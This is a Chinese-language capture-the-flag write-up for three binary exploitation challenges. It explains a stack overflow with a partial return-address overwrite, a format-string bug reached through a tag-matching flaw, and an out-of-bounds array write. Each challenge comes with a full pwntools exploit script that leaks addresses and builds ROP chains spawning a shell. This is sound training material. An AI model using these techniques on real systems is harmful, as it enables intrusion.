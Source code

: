 补一下二队内测题。

## repeater

> [easy] Repeater
>
> As is well known, CTFers are all repeaters!
>

栈溢出题目，`sub_11C9()` 可以栈溢出，只修改返回地址的 1 字节，可以做到 partial overwrite 无限循环 `sub_11C9()` 读入 payload。

这里讲一下 `fread`，后面也会用到。

[[C 语言 fread1 函数特性]]

既然没有空字符阶段，printf 就会把 retaddr 打印出来，从而获得 pie base。

接下来的问题是怎么泄漏 libc，ropper 发现程序没有一个能用来控制 rdi 的 gadgets，细心会发现程序在结束 printf 后寄存器 rdi 上居然还保存着 libc 函数的地址，那直接 `call puts` 就可以泄漏了。

```python
from pwn import *

proc = "./pwn"
context.binary = proc
context.log_level = "debug"
io = process(proc)
# io = remote("tld1027.com", 9030)

elf = ELF(proc)
libc = ELF("./libc.so.6")

if args.G:
    gdb.attach(io)

payload1 = b'a' * (0x110 - 1) + b'b' * 8 + b"\xb8"
io.recvuntil(b"You say:\n", drop=True)
io.sendline(b"281")
# input()
io.send(payload1)

io.recvuntil(b"bbbbbbbb", drop=True)
main_addr = u64(io.recvuntil(b"\n", drop=True).ljust(8,b"\x00"))
pie_addr = main_addr - 0x12b8
log.info(f"pie_addr ===> {hex(pie_addr)}\nmain_addr ===> {hex(main_addr)}")

payload2 = b'a' * (0x110 - 1) + b"cccccccc" + b"\xb3"
io.recvuntil(b"You say:\n", drop=True)
io.sendline(b"281")
io.send(payload2)
io.recvuntil(b"cccccccc", drop=True)
io.recvuntil(b"\n", drop=True)

fun_addr = u64(io.recvuntil(b"\n", drop=True).ljust(8, b"\x00"))
libc_base = fun_addr - libc.symbols["funlockfile"]
system_addr = libc_base + libc.symbols["system"]
binsh_addr = libc_base + next(libc.search(b"/bin/sh"))
pop_rdi_ret = libc_base + 0x000000000002a3e5
ret = pie_addr + 0x101a

log.info(f"funlockfile_addr ===> {hex(fun_addr)}\n")
log.info(f"libc_base ===> {hex(libc_base)}\n"
            f"system_addr ===> {hex(system_addr)}\n"
            f"binsh_addr ===> {hex(binsh_addr)}\n"
            f"pop_rdi_ret ===> {hex(pop_rdi_ret)}"
)

payload3 = b"a" * (0x110 - 1) + b"dddddddd" + flat([pop_rdi_ret, binsh_addr, ret, system_addr])
io.recvuntil(b"You say:\n", drop=True)
io.sendline(f"{len(payload3) + 1}".encode())
io.send(payload3)
io.interactive()
```

## tag

> [mid] tag
>
> There is a fmt vulnerability, but it seems impossible to trigger.
>

这题也不难，首先目标是把 v6 改成 1，可以发现在配对 tag 的时候，对于后标签只匹配了 `</`，导致可以 partial overwrite。

把 old_char 设置成 `\x00`，`new_char` 设置成 `\x01`，然后就可以打格式化字符串了。

```python
#!/usr/bin/env python3
from pwn import *

proc = "./pwn"
context.log_level = "debug"
context.binary = proc
io = process(proc)
elf = ELF(proc)
libc = ELF("./libc.so.6")

if args.G:
    gdb.attach(io)

io.recvuntil(b"Input >\n", drop=True)
payload1 = b"<" + b"\x00" + b">%11$p.%18$p.%29$p.bbbbbbbbb</"
log.info(f"payload1 len ===> {len(payload1)}")
io.send(payload1)

# one
io.recvuntil(b"Old tag to replace [q to quit] >\n", drop=True)
io.sendline(b"\x00")
io.recvuntil(b"New tag >\n", drop=True)
io.sendline(b"\x01")

# two
io.recvuntil(b"Old tag to replace [q to quit] >\n", drop=True)
io.sendline(b"1")
io.recvuntil(b"New tag >\n", drop=True)
io.sendline(b"2")

io.recvuntil(b"<"+ b"\x01" + b">", drop=True)
IO_fw_addr = int(io.recvuntil(b".", drop=True).decode(), 16) - 45
str_addr = int(io.recvuntil(b".", drop=True).decode(), 16)
stack_addr = int(io.recvuntil(b".", drop=True).decode(), 16) - 0x200

log.info(f"IO_fw_addr ===> {hex(IO_fw_addr)}\nstr_addr ===> {hex(str_addr)}\nstack_addr ===> {hex(stack_addr)}")
libc_addr = IO_fw_addr - libc.symbols["_IO_file_write"]
pie_addr = str_addr - 0x2069
log.success(f"libc_addr ===> {hex(libc_addr)}\npie_addr ===> {hex(pie_addr)}")

ret_addr = stack_addr + 0x90
log.success(f"ret_addr ===> {hex(ret_addr)}")

ret = pie_addr + 0x000000000000101a
system_addr = libc_addr + libc.symbols['system']
binsh_addr = libc_addr + next(libc.search(b"/bin/sh"))
pop_rdi_ret = libc_addr + 0x000000000002a3e5

log.success(f"system_addr ===> {hex(system_addr)}\nbinsh_addr ===> {hex(binsh_addr)}\npop_rdi_ret ===> {hex(pop_rdi_ret)}")

payload2 = fmtstr_payload(8, {ret_addr: pop_rdi_ret, ret_addr + 8: binsh_addr, ret_addr + 16: ret, ret_addr + 24: system_addr}, write_size="short")
io.sendline(payload2)

io.interactive()
```

顺带一提 pwntools 的 fmtstr_payload 针对 x64 的模块已经修好了，真好使啊~~两年前还是坏的~~

## ZoO

> [hard] ZoO!
>
> Welcome to the zoo! You can feed the small animals here. The flag is placed in a location that you cannot touch.
> 
> PS:
> The flag is a series of numbers, and the complete flag format is t1dctf{***}.

这题折腾了挺久的，总算是完整复现出来了（（

第一个点在于逆向结构体，这里总结了点[[逆向结构体的经验]]。

第二个点在于找溢出，不过如果第一个逆清楚了的话其实这里问题不大，显然是存在数组越界的，对于同一个 bin 可以创建 5 个 entry，前 4 个填满数组，第五个相当于越界读写，可以写 ret addr。

第三个点在于找利用链，这个题没给任意地址写，只有部分地址写，所以没办法构造 ROP 链子完整泄漏 libc 打，但是题里有一个 `backdoor`:

```nasm
endbr64
push    rbp
mov     rbp, rsp
mov     [rbp+var_8], rdi
mov     [rbp+var_10], rsi
pop     rbp
retn
```

相当于会把 rdi 和 rsi 存下来，我们去 ret addr 看看，发现 ret 时 rdi 是 func1 里用到的 map 地址，rsi 是 `useless`，那么直接调用 view 函数就可以把 flag 打印出来。

第四个点在于这个 view 函数不能从头开始调用，否则会 segment fault 退出，这是因为 gift 函数在 ret 时缺少了 `mov rsp, rbp`，解决方法也简单，从 `view + 5` 开始调用就行。

```python
from pwn import *
from sys import argv

proc = "./pwn"
context.log_level = "debug"
context.binary = proc
elf = ELF(proc, checksec=False)
io = remote("", ) if argv[1] == 'r' else process(proc)

io.recvuntil(b"ZoO!")

if args.G:
    gdb.attach(io, "b *$rebase(0x1483)\nb *$rebase(0x1a07)")


def feed(name, amount):
    io.recvuntil(b"> ", drop=True)
    io.sendline(b"1")
    io.recvuntil(b">\n", drop=True)
    io.sendline(name)
    io.recvuntil(b">\n", drop=True)
    io.sendline(str(amount).encode())


# pause()
feed(b"1", 1)
feed(b"1F", 1)
feed(b"1FF", 1)
feed(b"1FFF", 1)

log.info("four")
feed(b"1FFFF", -0x4fc+5)

io.interactive()
```


